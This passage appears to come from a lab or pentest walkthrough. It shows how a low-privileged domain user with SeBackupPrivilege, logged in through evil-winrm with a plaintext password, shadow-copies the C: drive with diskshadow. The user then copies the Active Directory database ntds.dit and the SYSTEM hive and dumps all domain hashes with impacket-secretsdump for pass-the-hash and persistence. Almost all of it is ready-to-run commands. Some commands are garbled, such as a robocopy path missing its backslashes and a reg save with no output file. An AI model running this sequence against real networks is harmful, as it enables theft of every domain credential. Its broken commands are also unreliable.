 ```bash
evil-winrm -i 192.168.140.129 -u 'jcaballero1' -p 'Passjc1.'
```

Once connected with the tool to the AD, check what privileges you have with the command:

```bash
whoami /priv
```
![Privilege query](evil-winrm-privilegios.png){: width="972" height="589" }
_Privilege query_

It is confirmed that you have SeBackupPrivilege privileges, with this type of privileges you can make a copy of the system and the SAM file, to obtain the hashes of the users of that equipment, with the tool [**impacket-secretdump**](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/secretsdump.py) and be able to perform a Pass The Hash attack, but, related to persistence, which will be seen later, the copy that must be made is on the NTDS file, which is the AD database that is used to store all the specific information of the AD. 

To access this file, a copy of the system must be made in a new logical unit, using the tool [**diskshadow**](https://learn.microsoft.com/es-es/windows-server/administration/windows-commands/diskshadow). The execution of this tool will take as a parameter a file that is responsible for making the copy of the C: disk to the disk that has been chosen, as it does not have permissions for the consultation of that disk as they are not administrators:

```bash
set context persistent nowriters
add volume c: alias jcaballero
create
expose %jcaballero% e:
```

Once the file has been uploaded to the AD, the command is executed:

```bash
diskshadow.exe /s c:\TEMP\diskshadow
```

This instruction enables the mounting of the cloned hard disk from the victim machine's hard disk.  

![diskshadow tool](evil-winrm-diskshadow.png){: width="972" height="589" }
_diskshadow tool_

After cloning the disk, copy the ntds.dit file with the command.

```bash
robocopy /b e:WindowsNTDS. ntds.dit
```

A copy of the system registry is made with the command:

```bash
reg save HKLM\system
```

And they are sent to the attacking machine, to subsequently run the impacket-secretsdump tool where the downloaded files are sent to it as parameters with the command:

```bash
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```
